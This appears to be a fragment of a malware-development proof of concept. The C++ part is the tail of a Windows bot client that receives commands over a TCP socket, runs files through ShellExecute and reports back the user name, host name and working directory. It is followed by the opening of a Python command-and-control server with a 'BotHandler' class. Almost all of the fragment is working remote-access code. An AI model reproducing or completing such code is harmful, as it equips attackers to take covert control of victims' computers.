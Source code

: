 ```cpp
						++j;
					}
					char buffer[257] = "";
					exec(buffer, CommandExec);
					strcat(buffer, "\n");
					send(tcpsock, buffer, strlen(buffer) + 1, 0);
					memset(buffer, 0, sizeof(buffer));
				}
				else {
					char buffer[20] = "Invalid command\n";
					send(tcpsock, buffer, strlen(buffer) + 1, 0);
					memset(buffer, 0, sizeof(buffer));
				}
			}
			memset(CommandReceived, 0, sizeof(CommandReceived));
		}
	}
}

void exec(char * returnval, char * fileexec) {
	if (32 >= (INT_PTR) ShellExecute(NULL, "open", fileexec, NULL, NULL, SW_SHOWNORMAL)) {
		strcat(returnval, "[x] Error executing command...\n");
	}
	else {
		strcat(returnval, "\n");
	}
}

void whoami(char * returnval) {
	DWORD bufferlen = 257;
	GetUserName(returnval, &bufferlen);
}

void hostname(char * returnval) {
	DWORD bufferlen = 257;
	GetComputerName(returnval, &bufferlen);
}

void pwd(char * returnval) {
	TCHAR tempvar[MAX_PATH];
	GetCurrentDirectory(MAX_PATH, tempvar);
	strcat(returnval, tempvar);
}
```

- Script PoC-maldev/server2.py
```python
#!/usr/bin/python3

import socket
import sys
import os
import threading
import queue
import time

q = queue.Queue()
Socketthread = []
ClientList = {}

class BotHandler(threading.Thread):
	def __init__(self, client, client_address, qv):
		threading.Thread.__init__(self)
		self.client = client
```